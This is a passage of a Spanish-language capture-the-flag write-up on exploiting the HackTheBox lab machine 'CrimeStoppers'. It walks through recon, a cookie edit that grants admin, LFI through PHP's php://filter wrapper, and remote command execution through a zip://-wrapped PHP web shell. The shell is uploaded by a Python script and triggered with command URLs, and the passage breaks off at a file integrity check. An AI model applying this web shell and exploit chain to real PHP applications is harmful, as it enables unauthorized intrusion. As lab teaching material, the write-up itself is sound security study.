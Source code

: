 ```yaml
---
layout      : post
title       : "HackTheBox - CrimeStoppers"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120banner.png
category    : [ htb ]
tags        : [ LFI, wrapper, reversing, rootkit, crypto, thunderbird ]
---
```

Máquina Linux nivel difícil. Explotación web con filtros (**wrappers**) consiguiendo **LFI** y **RCE**, contraseñas de **Thunderbird**, correos llenos de odio, persistencias locas (un **rootkit**) y jugueteo entre **reversing** y **criptografía**.

![120crimestoppersHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120crimestoppersHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [IppSec (diosito)](https://www.hackthebox.eu/profile/3769).

Virgencita lo que nos espera, los malos han ganado 😔

Encontraremos un servidor web para enviar información sobre unos ciberatacantes, jugando con la web se nos avisará que existe un parámetro vulnerable a `LFI (Local File Inclusion)` y a `RCE (Remote Command Execution)`, lo encontraremos, jugaremos con `wrappers` para leer los objetos de la web. Después de algo de enumeración entenderemos varios temas relacionados con la web y los reportes subidos. 

Para conseguir **RCE** tendremos que jugar de nuevo con un **wrapper**, esta vez el que esta relacionado con `zip://`, ¿pero para qué? bien, aprovecharemos la subida de los reportes para adjuntar en un campo de la trama el contenido (un `.php` con maldad dentro) de un archivo `.zip` para con ayuda del **wrapper** referenciarlo y leer el objeto **.php** que tiene dentro, ese archivo **.php** será el culpable de poder ejecutar comandos en el sistema como el usuario `www-data`.

🪕 [Script que automatiza la subida y genera **RCE**, <u>rceZIPwrapper.py</u>](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/crimestoppers/rceZIPwrapper.py)

Estando dentro jugaremos con el servicio `Thunderbird` para dumpear las contraseñas que guarda **Mozilla** en el sistema, esto para obtener credenciales válidas contra un usuario llamado `dom`.

Ya siendo **dom** vamos a encontrarnos de nuevo cositas de mails, en este caso vamos a leer unos correos algo tenebrosos, en uno de ellos se hace referencia a que **dom** encontró un `rootkit` en el sistema pero no esta seguro si esta en funcionamiento o no.

Tendremos que colocarnos en la posición del atacante, encontrar ese **rootkit** y sobre todo usarlo para conseguir una **Shell** como el usuario `root`. Peroooo, no será tan sencillo. Vamos a jugar un poquito con `reversing` y con `criptografia` para encontrar que los atacantes cambiaron la manera por default de usar el **rootkit** y agregaron su propia función que juega con `keys` y `XORs`.

Finalmente obtendremos la cadena con la que esta comparando la `key` y haremos funcionar correctamente el `rootkit`, ¿o sea? Obtendremos una sesión en el sistema como el usuario `root`.

...

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Enumeración por montones, vulns conocidas y mucho más real de lo que creemos 👻

> Escribo para tener mis "notas", por si algún día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y éxitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Es momento de cantar 🎶

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Enumeramos servidor web en el puerto 80](#puerto-80).
3. [Explotación, encontramos **LFI**](#explotacion).
  * [Exploramos los archivos fuente de la web](#lfi-inspect-files)..
  * [Vamos de LFI a RCE usando el wrapper **zip://**](#lfi2rce-zip).
4. [Movimiento lateral - Thunderbird](#thunderbird-decrypt).
  * [Dumpeamos credenciales de Thunderbird con dos herramientas](#dump-thunderbird).
5. [Escalada de privilegios, jugamos con un **rootkit**](#escalada-de-privilegios).
  * [Encontramos **rootkit** en el sistema](#rootkit-found).
  * [Hacemos reversing hacia el **rootkit**, jugamos con **XOR** y desciframos como usar el backdoor](#rootkit-r2).
6. [Post explotación, logramos acceso **SSH** por **IPv6**](#ssh-ipv6).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Como siempre, vamos a empezar descubriendo los puertos abiertos de la máquina, juguemos con `nmap` para eso:

```bash
❱ nmap -p- --open -v 10.10.10.80 -oG initScan
```

Pero el escaneo va moooooy lento, así que agregaremos el parámetro `--min-rate`:

```bash
❱ nmap -p- --open -v --min-rate=2000 10.10.10.80 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-          | Escanea todos los 65535                      |
| --open       | Solo los puertos que están abiertos          |
| -v           | Permite ver en consola lo que va encontrando |
| --min-rate=N | Le decimos que en cada petición que haga no envíe menos paquetes de N |
| -oG          | Guarda el output en un archivo con formato grepeable para usar la [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que extrae los puertos en la clipboard |

Este escaneo nos devuelve un solo puerto abierto (***es importante validar de nuevo, ya que al ser un escaneo "forzado" pueda que `nmap` sobrepase algunos puertos***):

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Sat Jul 31 25:25:25 2021 as: nmap -p- --open -v --min-rate=2000 -oG initScan 10.10.10.80
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.80 ()	Status: Up
Host: 10.10.10.80 ()	Ports: 80/open/tcp//http///	Ignored State: filtered (65534)
# Nmap done at Sat Jul 31 25:25:25 2021 -- 1 IP address (1 host up) scanned in 73.69 seconds
```

Tenemos:

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Nos brinda un servidor web |

Al ser un solo puerto, no es necesario el uso de la función `extractPorts` (pero si no sabes el uso, en el 90% de writeups esta).

Ahora vamos a ver que versión y scripts tiene relacionado ese servicio web:

```bash
❱ nmap -p 80 -sC -sV 10.10.10.80 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Y este escaneo nos devuelve:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Sat Jul 31 25:25:25 2021 as: nmap -p 80 -sC -sV -oN portScan 10.10.10.80
Nmap scan report for 10.10.10.80
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Ubuntu))
|_http-server-header: Apache/2.4.25 (Ubuntu)
|_http-title: FBIs Most Wanted: FSociety

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 31 25:25:25 2021 -- 1 IP address (1 host up) scanned in 15.98 seconds
```

Bien, ¿qué vemos?:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache/2.4.25 |

Y algo sobre el **FBI** 😨. Sabemos que si o si debemos explotar algo web, así que profundicemos y démosle a estoooooooooooooooooo.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Varias cositas encontramos en la web inicial:

* Dos apartados arriba a la izquierda, el `home` y uno llamado `upload`.
* Nos muestra algunos ataques realizados por `fsociety`, podemos tenerlos en cuenta por si algo.
* Tenemos algunos nombres, quizás usuarios, no lo sabemos, guardémoslos.

Si visitamos el apartado `upload` vemos una **URL** medio interesante y un formulario para enviar información relacionada con algún miembro de `fsociety`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_uploadForm.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

La **URL** con su formato `?op=` nos pone a pensar sobre algunas inyecciones, pero probando algunas básicas no vemos nada, sigamos.

Si llenamos los dos campos con info random:

* Information: `hola`
* Name: `elliot`

Enviamos la data y nos redirige a esta página:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_view_withSHA1hash.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmm, el valor `elliot` no lo vemos por ningún lado y solo nos devuelve la información que agregamos...

La **URL** va al recurso `view` y se genera otra variable llamada `secretname` con un hash tipo [SHA1](https://www.adslzone.net/2017/02/23/cifrado-sha-1-ya-no-seguro-google-lo-ha-roto-despues-22-anos/) que no importa lo que pongamos en los campos del formulario, siempre va a ser distinto (según las pruebas que he hecho hasta ahora e.e).

Revisando el código fuente del recurso `upload` vemos un comentario bastante llamativo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_upload_htmlCode.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

:o Una referencia a una vulnerabilidad tipo `SQL injection` en algo llamado `Tip`, curiosamente debajo vemos un campo de texto con id `tip`, jmmm, interesantísimo. Parece que ha sido removido ese campo en el viaje a la base de datos y se crea un archivo con él (no me quedo claro), pero igual podemos probar después.

Sigamos con `BurpSuite` así interceptamos las peticiones y vemos como viajan la data:

---

## <u>BurpSuite</u>, interceptamos peticiones y 👀 cositas [📌](#page80-burp) {#page80-burp}

Inicialmente jugaremos con el `home`, probemos tu vista, ¿ves algo interesante?:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120burp_home.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

¿Lo viste? En nuestro header `Cookie` existe una llamada `admin` y tiene el valor `0`, como indicando que no somos **admin**, pues podemos jugar ya sea con el propio `BurpSuite`, un editor de cookies o con el propio navegador web para cambiar esa cookie al valor `1`, quizás nos convierta en admin o quizás no, probemos:

Usaré la extensión [CookieManager](https://www.google.com/search?client=firefox-b-d&q=cookiemanager) en `Firefox` para cambiar ese valor, actualizamos la página web yyyyyyyyyyyyy junto a `home` y `upload` vemos un nuevo recurso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_asAdmin.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opaa, el apartado `list`, pues veámoslo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_asAdmin_list.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos tooodos los archivos que se han creado, ya que si damos clic en cualquiera vemos nuestros `"hola"` y las distintas pruebas que hicimos antes, pero claro, hay un objeto distinto a los demás: `whiterose.txt`, veamos su contenido:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_asAdmin_view_whiterose.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Encontramos un regaño de alguien contra los desarrolladores, les indica que uno de los parámetros enviados por el método `GET` (los que vemos en la URL) contiene una vulnerabilidad que inicialmente le deja ver el código fuente de algunos objetos, pero hay una prueba que le permitió **ejecutar comandos remotamente** 😯

También vemos un email del cual si extraemos el dominio `DarkArmy.htb`, podríamos probar el agregarlo al archivo [/etc/hosts](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/) y ver si la resolución entre `10.10.10.80  DarkArmy.htb` nos devuelve algo distinto a la web que ya enumeramos desde el inicio (que no tendría mucho sentido, ya que es un usuario X con un email X, pero pues podemos probar).

> Pero no, no cambia, así que sigamos con lo encontrado antes...

...

***Es un mensaje para el equipo de desarrollo, pero también es para nosotros, nos dice que existe un campo `GET` vulnerable, también que ese campo le permite ver en código fuente de los archivos (puede ser el parámetro `secretname` ya que es el indicador de cuál archivo queremos ver en la web), así que primero enfoquémonos en encontrar un campo que al ser vulnerado lea los fuentes del sistema (`LFI`) y ya después nos volcamos al `RCE` 🚀***.

...

# Explotación, encontramos el parámetro vulnerable [#](#explotacion) {#explotacion}

🤯 ***Una vulnerabilidad tipo [LFI (Local File Inclusion)](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) nos permite básicamente leer archivos a los cuales no deberíamos tener acceso (que están fuera de los objetos que usa la web), por ejemplo los del sistema.***

Después de muchas pruebas que me tenían como un 🧟  encontramos algo. 😊

Intentando enumerar ya sea el archivo `/etc/passwd` o alguno de los objetos que se referencian en la web (como `list` o `list.php`) usando el parámetro `secretname`, nada, no conseguimos respuesta alguna.

Moviéndonos entre parámetros solo nos quedaría uno, `op`, pues intentemos ahora el `LFI` ahí:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_op_etcPasswd_withoutDOTS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pero nada, vemos `Error`... Pero podemos probar más cosas, como por ejemplo intentar movernos de carpetas del sistema e ir buscando el archivo `/etc/passwd` (o lo dicho antes, los objetos de la web), esto es sencillo, simplemente vamos saliéndonos de los directorios usando `../`, por lo que cada repetición de esa cadena es un directorio atrás.

Vayámonos bieeeeeen a la raíz del sistema y busquemos `../../../../../etc/passwd`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_op_etcPasswd_DOTS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmmm, es un mensaje juguetón, probando cosas vemos que el mensaje sale cuando se envían dos puntos en la cadena. Siguiendo [este post](https://book.hacktricks.xyz/pentesting-web/file-inclusion) vemos algunas pruebas contra los `LFI`, probando y probando llegamos a la [sección de wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), que serian como códigos adicionales que le indican a la web como queremos que se maneje la petición. [<u>Más info de wrappers</u>](https://diego.com.es/streams-en-php).

En la sección de **wrappers** existe uno que me gusta mucho:

```php
php://filter/convert.base64-encode/resource=index.php
```

Lo que hace es tomar el contenido del archivo `index.php` y codificarlo a `base64`, esto para mostrar por pantalla toooda la cadena encodeada. Es muy usado en este tipo de ataques, ya que muchas veces al intentar leer el contenido de un archivo `.php` sin un **wrapper** el contenido será interpretado más no mostrado. Ahí es cuando nos salvan los **wrappers**.

Intentando cositas como:

```php
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=/etc/passwd
// O encodeando los puntos:
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=%252e%252e%252fetc%252fpasswd
```

No logramos la explotación 😥 peeeeeeeeeeeeeeeeeeeero, si en vez de archivos del sistema intentamos jugar con los objetos usados por la web nos cambia la cara: 😮

**F**:

```php
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=list.php
```

**Tamo**:

```php
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=list
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_LFIwrapperb64_list_DONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos una cadena en `base64` gigante, tomémosla y decodifiquémosla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_LFI_decodeB64_listPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, podemos hacer esto mismo con los demás recursos o crearnos un script que simplemente tome el archivo que queremos ver y en su lógica lo decodee y nos lo muestre, ahí les dejo la tarea (:

---

## Exploramos los códigos fuente usados por la web [📌](#lfi-inspect-files) {#lfi-inspect-files}

Encontramos el mensaje al intentar `..` y al jugar con null bytes (`%00`), además el `include` que es el que implementa el valor de `$op` (le agrega el `.php`) en la web:

```php
<?php
...
$op = empty($_GET['op']) ? 'home' : $_GET['op'];
if(!is_string($op) || preg_match('/\.\./', $op) || preg_match('/\0/', $op))
    die('Are you really trying ' . htmlentities($op) . '!?  Did we Time Travel?  This isn\'t the 90\'s');
...
...
...
if(!(include $op . '.php'))
    fatal('no such page');
?>
```

> Por eso si intentabamos buscar `upload.php` terminaría la función incluyendo `upload.php.php`, y claramente ese objeto no existe.

* [Diferencia entre **file_get_contents()** e **include()**](https://infinitelogins.com/2020/11/21/exploiting-php-based-lfi/).

Sigamos...

Nos encontramos el objeto que hace la subida de los archivos, `upload.php`:

```php
<?php
include 'common.php';

// Stop the automated tools from filling up our ticket system.
session_start();
if (empty($_SESSION['token'])) {
    $_SESSION['token'] = bin2hex(openssl_random_pseudo_bytes(32));
}
$token = $_SESSION['token'];

$client_ip = $_SERVER['REMOTE_ADDR']; 

// If this is a submission, write $tip to file.

if(isset($_POST['submit']) && isset($_POST['tip'])) {
    // CSRF Token to help ensure this user came from our submission form.
    if (!empty($_POST['token'])) {
        if (hash_equals($token, $_POST['token'])) {
            $_SESSION['token'] = bin2hex(openssl_random_pseudo_bytes(32));
            // Place tips in the folder of the client IP Address.
            if (!is_dir('uploads/' . $client_ip)) {
                mkdir('uploads/' . $client_ip, 0755, false);
            }
            $tip = $_POST['tip'];
            $secretname = genFilename();
            file_put_contents("uploads/". $client_ip . '/' . $secretname,  $tip);
            header("Location: ?op=view&secretname=$secretname");
        } 
        else {
            print 'Hacker Detected.';
            print $token;
            die();
        }
    }
} 
else {
?>
...
```

Vemos que extrae nuestra IP y con ella genera un directorio para guardar los archivos, algo así: `uploads/10.10.14.5`.

También notamos algo interesante (lo que nos indicaba en el comentario del HTML que vimos hace un rato), el contenido del archivo que vamos a crear el enviado por la variable `$_POST['tip'];`. Así que ya sabríamos donde sube los objetos y como controlar su contenido, pero el nombre es un poco distinto, lo genera con la función `genFilename()` del objeto `common.php` y es guardado en la variable `$secretname`. Veamos `common.php`:

```php
<?php
/* Stop hackers. */
if(!defined('FROM_INDEX')) die();

// If the hacker cannot control the filename, it's totally safe to let them write files... Or is it?
function genFilename() {
    return sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand());
}

?>
```

Bien, es una concatenación de cadenas, nuestra IP, el contenido del `User-Agent`, el tiempo en que la petición fue enviada y un numero random. Tooodo eso forma una cadena que será convertida en un hash `SHA1`, ese hash será el nombre de nuestro archivo, esta hecho así para que no podamos cambiar el nombre del objeto (como bien dice el comentario).

Pero no estamos del todo perdidos, tenemos la posibilidad de escribir lo que queramos en ese archivo, nos queda mirar **QUÉ** escribir para lograr la explotación.

...

Con nuestras pruebas anteriores vimos un **wrapper** con una descripción interesante:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120google_xyz_wrapperZIPdesc.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de: [hacktricks.xyz - **Wrapper zip://**](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-zip).

Nos indica que podemos intentar subir un archivo `.zip` (simplemente le cambia la extensión a `.jpg`, podemos probar de las dos maneras) con contenido dentro, por ejemplo un `.php` para después desde el parámetro vulnerable jugar con el **wrapper `zip://`** e intentar leer el archivo comprimido y con `%23` (`#` en URLencode) hacer referencia a algún objeto que este dentro de ese comprimido, así, conseguiríamos por ejemplo hacer que un objeto `.php` sea interpretado, pues intentemos:

* [Local File Inclusion (LFI) – Cheat Sheet](https://ironhackers.es/herramientas/lfi-cheat-sheet/).
* [Leveraging LFI to RCE using **zip://**](https://www.corben.io/zip-to-rce-lfi/).

...

## De <u>LFI</u> a <u>RCE</u> con wrapper <u>zip://</u> [📌](#lfi2rce-zip) {#lfi2rce-zip}

Entonces, debemos hacer esto:

1. [Generar un archivo **<u>.php</u>** con el contenido que queramos](#lfi2rce-zip1).
2. [Comprimir ese archivo **<u>.php</u>** en un archivo **<u>.zip</u>**](#lfi2rce-zip2).
3. [Usar el campo **<u>tip</u>** (si recordamos ese campo contiene la data que se guardara en el contenido del archivo) para enviar el contenido del **<u>.zip</u>](#lfi2rce-zip3).
4. [Jugar con el wrapper **<u>zip://</u>** para leer el objeto **<u>.zip</u>** y después referenciar al archivo **<u>.php</u>** con el símbolo **#** (URLencodeado seria **%23**)](#lfi2rce-zip4).
  * Volviendo a revisar el código sabemos que los archivos subidos se están guardando con en esta ruta: `uploads/nuestra_ip/nombre_SHA1_archivo`. Esto es importante para que nuestro wrapper pueda encontrar el objeto comprimido, ya lo veremos en práctica.

Pues listos, empecemos...

<span id="lfi2rce-zip1" style="color: yellow;">1. </span>Generamos archivo `.php`.

Un simple archivo que tome una variable (llamada `xmd`) enviada por el método `GET` y que su contenido sea ejecutado en el sistema usando la función `system()`:

```php
❱ cat hola.php 
<?php system($_GET['xmd']); ?>
```

<span id="lfi2rce-zip2" style="color: yellow;">2. </span>Comprimimos el objeto `.php` y generamos un `.zip`.

Simplemente ejecutamos:

```bash
❱ zip acata.zip hola.php 
  adding: hola.php (stored 0%)
```

*(Podemos tomar el `.zip` y renombrarlo a `.jpg`, pero yo lo copiaré para en caso de que el `.zip` no nos funcione probar con el `.jpg`)*

Se genera el archivo `acata.zip` y en su contenido esta el archivo `hola.php`.

<span id="lfi2rce-zip3" style="color: yellow;">3. </span>Subimos el contenido del `.zip` a la web.

Usaremos **BurpSuite** para esto, ya que estaremos jugando con bytes, saltos de línea y símbolos extraños, así evitaremos que un simple espacio (por ejemplo al copiar y pegar en el campo de la web) nos dañe el archivo.

Entonces, abrimos Burp, vamos al recurso `upload`, activamos el proxy, interceptamos con **Burp** yyyyyyyyy borramos el contenido que tenga el campo `tip`, lo dejamos vacío.

Ahora para pegar el contenido del archivo `.zip` podemos hacerlo de varias maneras, jugaremos con una de ellas:

* ***Ejecutar*** `cat acata.zip | base64 -w 0`***, tomar la cadena en `base64` y pegarla en el campo `tip`.***

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120burp_zipFileTIP_base64.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

  Lo siguiente será volver a seleccionar esa cadena pero ahora en **Burp**, dar clic derecho y seguir esta ruta: 
  
    * `Convert Selection` > `Base64` > `Base64-decode`.
    * De la forma corta: `CTRL+SHIFT+B`.
    
  Y deberíamos ver algo así:

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120burp_zipFileTIP_base64decode.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

  Damos clic en `forward`, nos debería llevar al recurso `view` y **veríamos el hash del archivo que generamos**, lo copiamos y damos de nuevo a `forward`. Ya debería estar nuestro archivo subido...

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120burp_zipFileTIP_base64_uploadedVIEW.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Algo que descubrí es que desde la web tenemos acceso a `uploads/nuestra_ip/nombre_SHA1_archivo` y se nos descarga ese archivo, o si queremos ver tooodos los objetos subidos simplemente quitamos el hash:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_uploadsIP_listFiles.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, podemos descargar el objeto y ver si esta siendo subido con el formato de "comprimido":

```bash
❱ file 080b0c55f8b278c18430a49a19cdd7410f160dc4 
080b0c55f8b278c18430a49a19cdd7410f160dc4: Zip archive data, at least v1.0 to extract
```

Opa, pues sí, aprovechemos y validemos la integridad del archivo, así sabemos si contiene exactamente el contenido original, o sea, el contenido de `acata.zip`:

```bash
❱ md5sum *.zip
fb8b9eeae8f174cf3e27457e44672411  080b0c55f8b278c18430a49a19cdd7410f160dc4.zip
ad1e77bf2c8214b174b083f9ea0b0c97  acata.zip
```

Pues no, son distintos :( ¿y esto nos afecta? ¿Qué dices tú? 🤔 pos claro, ya que seguramente el archivo este roto y no nos funcione la explotación, podemos validarlo de dos formas, una es intentar descomprimir el objeto `08....zip`:

```bash
❱ unzip 080b0c55f8b278c18430a49a19cdd7410f160dc4.zip 
Archive:  080b0c55f8b278c18430a49a19cdd7410f160dc4.zip
warning [080b0c55f8b278c18430a49a19cdd7410f160dc4.zip]:  10 extra bytes at beginning or within zipfile
  (attempting to process anyway)
error [080b0c55f8b278c18430a49a19cdd7410f160dc4.zip]:  start of central directory not found;
  zipfile corrupt.
  (please check that you have transferred or created the zipfile in the
  appropriate BINARY mode and that you have compiled UnZip properly)
```

Vemos que no es válido :(

O probar de igual forma la explotación, intentemos primero localizar el objeto `080b0c55f8b278c18430a49a19cdd7410f160dc4` con el **wrapper**:

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/080b0c55f8b278c18430a49a19cdd7410f160dc4
```

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/080b0c55f8b278c18430a49a19cdd7410f160dc4%23hola.php
```

Pero recuerda que el parámetro `op` incluye la extensión `.php` por si solo, así que debemos probar así:

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/080b0c55f8b278c18430a49a19cdd7410f160dc4%23hola
```

Pasándole el parámetro que recibe el archivo `hola.php`:

```html
http://10.10.10.80/?op=zip://uploads/10.10.14.6/080b0c55f8b278c18430a49a19cdd7410f160dc4%23hola&xmd=id
```

Pero nada, todos nos responden:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120page80_ZIPwrapper_error.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

😔 ***Así que F, hay algo en el envío que corrompe nuestro archivo y no permite que se suba correctamente (técnicamente hablando: jodiéndonos la integridad del mismo).***

<span id="lfi2rce-zip4" style="color: yellow;">4. </span>Logramos la subida correctamente y jugamos con el wrapper `zip://`.

Después de mover, quitar, lavarme la cara a ver si es que estaba dormido y no vi algo, etc. Después de un tiempo se me ocurrió hacer exactamente lo mismo que con **Burp**, enviar el contenido del `.zip` en una cadena en **base64** peeeeero desde un script en **Python**, que el mismo se encargue de jugar con los `bytes` y demás temitas. 

Entonces la idea es que el script tome la cadena en **base64**, la decode a `bytes` y haga el envió sobre el campo de texto `tip` (si nos fijamos en la petición que hicimos con **Burp** no estamos subiendo un archivo como tal (no existe `filename` o `Content-Type` en el campo `tip`), estamos pasando un texto que al estar dentro de un archivo dará formato a un objeto `.zip`). 

🙌 ***Con esta prueba logramos que la data del archivo viaje sin problemas y que una vez validamos la integridad los dos archivos sean iguales :)***

Este es el fragmento del script que hace la subida:

```py
...
session = requests.Session()

# - Extraemos token de sesion para poder subir un archivo
r = session.get(URL, params={"op":"upload"})
soup = BeautifulSoup(r.content, "html.parser")

token_value = soup.find(attrs={"name": "token"})["value"]

# - Subimos contenido del archivo .zip
zip_file_b64 = "UEsDBAoAAAAAAMxRA1N1AJ8mHwAAAB8AAAAIABwAaG9sYS5waHBVVAkAA09dCWFPXQlhdXgLAAEE6AMAAAToAwAAPD9waHAgc3lzdGVtKCRfR0VUWyd4bWQnXSk7ID8+ClBLAQIeAwoAAAAAAMxRA1N1AJ8mHwAAAB8AAAAIABgAAAAAAAEAAACkgQAAAABob2xhLnBocFVUBQADT10JYXV4CwABBOgDAAAE6AMAAFBLBQYAAAAAAQABAE4AAABhAAAAAAA="
# Pasamos de base64 a bytes
zip_file_bytes = zip_file_b64.encode('utf-8')
zip_file = base64.decodebytes(zip_file_bytes)

data_post = {
    "tip": zip_file,
    "name": "hola",
    "token": token_value,
    "submit": "Send Tip!"
}
r = session.post(URL, params={"op":"upload"}, data=data_post)

# Extraemos el nombre del archivo generado (el hash)
secretname = r.url.split('=')[2]
print(secretname)
...
```

Por si no me crees sobre que va en la cadena **base64** e.e

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/crimestoppers/120bash_script_ZIPbase64_echo.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si lo ejecutamos tendríamos este nombre de archivo:

```bash
❱ python3 rceZIPwrapper.py 
7aaa6229865be1a673429fe1df2d9317bea8e863
```

Validamos integridad:

```bash
❱ curl http://10.10.10.80/uploads/10.10.14.6/7aaa6229865be1a673429fe1df2d9317bea8e863 -o 7aaa6229865be1a673429fe1df2d9317bea8e863
